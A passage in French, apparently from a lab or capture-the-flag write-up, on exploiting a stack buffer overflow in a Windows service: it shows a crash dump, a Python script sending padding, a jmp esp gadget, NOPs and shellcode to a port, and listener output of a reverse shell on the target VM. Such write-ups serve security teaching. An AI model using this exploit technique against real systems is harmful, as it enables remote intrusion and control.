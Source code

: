 Et là c'est la douche froide :

```
Unhandled exception: page fault on write access to 0xb80185f6 in 32-bit code (0x0135f563).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:0135f563 ESP:0135f960 EBP:0135f47b EFLAGS:00010202(  R- --  I   - - - )
 EAX:00005001 EBX:0135f5a6 ECX:0135f958 EDX:00000000
 ESI:0135f964 EDI:00000050
Stack dump:
0x0135f960:  f5806d63 5c110002 0138a8c0 00000005
0x0135f970:  02020202 536e6957 206b636f 00302e32
0x0135f980:  00000000 007321c0 00720000 00000000
0x0135f990:  7ffb2c00 007202b0 00000000 00723d24
0x0135f9a0:  007321c8 7ffb2c00 0135f9d0 00732101
0x0135f9b0:  00000000 00732078 00720000 00000000
Backtrace:
=>0 0x0135f563 (0x0135f47b)
0x0135f563: addb	%ah,0x35(%ecx,%edi,8)
```

On voit que le code tente d'écrire à `[ecx+edi*8]+0x35` (il me semble car ce n'est pas la notation que j'utilise habituellement :p) qui correspond à une zone mémoire non mappée.

Quel est le problème ? Potentiellement le shellcode place des données sur la stack et en le faisant se modifie lui-même ce qui provoque l'exécution de code cassé.

J'ai utilisé différents shellcodes et au final il y avait toujours un problème.

J'ai finalement placé le shellcode après l'adresse de retour avec l'utilisation d'un `jmp esp` comme gadget (présent dans la DLL) :

```python
jmp_esp = b"\xb8\x12\x50\x62"

buffer = b"a"*1702 + jmp_esp + b"\x90" * 8 + shellcode
sock = socket.socket()
sock.connect(("127.0.0.1", 2371))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```

On place quelques NOPs histoire d'être sûr que notre shellcode est bien callé en mémoire.

Après un test local on peut appliquer sur la VM. On obtient bien notre reverse shell :

```bash
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.50.
Ncat: Connection from 192.168.56.50:48510.
Microsoft Windows 6.1.7601 (4.0)

C:\users\fox>dir
Volume in drive C has no label.
Volume Serial Number is 0000-0000

Directory of C:\users\fox

 11/7/2022   7:33 PM  <DIR>         .
11/16/2020   5:58 PM  <DIR>         ..
11/16/2020   5:58 PM  <DIR>         AppData
11/16/2020   5:58 PM  <DIR>         Application Data
11/16/2020   5:58 PM  <DIR>         Contacts
11/16/2020   5:58 PM  <DIR>         Cookies
11/16/2020   5:58 PM  <DIR>         Desktop
```
